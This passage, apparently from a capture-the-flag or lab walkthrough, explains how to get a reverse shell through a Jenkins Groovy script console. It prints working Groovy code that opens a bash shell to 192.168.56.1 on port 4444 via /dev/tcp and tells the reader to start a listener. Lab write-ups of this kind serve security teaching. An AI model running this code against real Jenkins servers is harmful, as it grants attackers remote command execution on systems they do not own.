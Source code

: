 ![](images/stones/jenkins.png)

Since we have access to jenkins we can exploit `Groovy script` to get the reverse shell. In order to do that go to `Manage jenkins` and then find `Script console` option and type the following cod

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/192.168.56.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

![](images/stones/groovy.png)

and while you listener is listing on port `4444` run that command to get a reverse shell.

![](images/stones/rev.png)
